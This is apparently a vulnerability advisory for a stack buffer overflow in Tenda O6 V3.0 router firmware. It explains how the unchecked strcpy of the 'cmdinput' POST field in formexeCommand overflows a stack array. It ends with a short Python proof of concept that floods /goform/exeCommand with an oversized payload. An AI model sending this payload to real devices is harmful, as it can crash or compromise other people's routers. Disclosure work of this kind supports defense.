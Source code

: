 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The O6 V3.0 V1.0.0.7(2054) firmware contains a stack overflow vulnerability in the `formexeCommand` function. Specifically, the `Var` variable is assigned the value of the `cmdinput` parameter from a POST request. Since `cmdinput` is user-controlled, its value can be manipulated to exceed the allocated size of the `v3` array. This vulnerability arises from the use of the `strcpy(v3 + 16, src)` statement, which does not perform bounds checking on the input. Consequently, if the length of the user-provided `cmdinput` exceeds the storage capacity of the `v3` array, it causes a buffer overflow, leading to a potential security exploit.
![Vulnerability Function2](./20240805171010.png)

![[Pasted image 20240805171010.png]]

## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/exeCommand"
payload = b"ab"*3000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
print(response.text)
```

![Vulnerability Function2](20240805163853.png)

